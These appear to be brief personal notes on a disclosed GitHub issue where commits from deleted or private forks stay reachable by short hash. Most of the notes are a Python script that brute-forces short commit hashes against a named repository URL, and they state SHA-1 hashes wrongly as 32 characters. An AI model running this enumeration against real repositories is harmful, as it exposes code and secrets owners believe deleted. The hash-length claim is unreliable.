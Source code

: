 https://trufflesecurity.com/blog/anyone-can-access-deleted-and-private-repo-data-github

- Forked a repo
- make changes to the repo ?
- deleted the forked repo 

- changes is visible in main repo `/<user/org>/<repo>/commit/<commit_hash>`

==!!Warning==

- commit_hash is SHA-1 value which is 32 char .

- to access only 1 value is enough `07f01e`


- to bruteforce if partial hash is known
```python
import requests

base_url = "https://github.com/notevilcorp/tools/commit/"

def check_commit(hash_part):
    url = f"{base_url}{hash_part}"
    response = requests.head(url)
    if response.status_code == 200:
        print(f"Valid commit found: {url}")
        return True
    else:
        return False

def find_commit():
    # Check all possible combinations after '4b'
    hex_chars = '0123456789abcdef'
    
    for i in hex_chars:
        for j in hex_chars:
            for k in hex_chars:
                for l in hex_chars:
                    short_hash = f"4b{i}{j}{k}{l}"
                    print(f"Trying hash: {short_hash}")
                    if check_commit(short_hash):
                        return short_hash

found_hash = find_commit()

if found_hash:
    print(f"Suspicious commit found: {found_hash}")
else:
    print("No suspicious commit found starting with '4b'.")

```


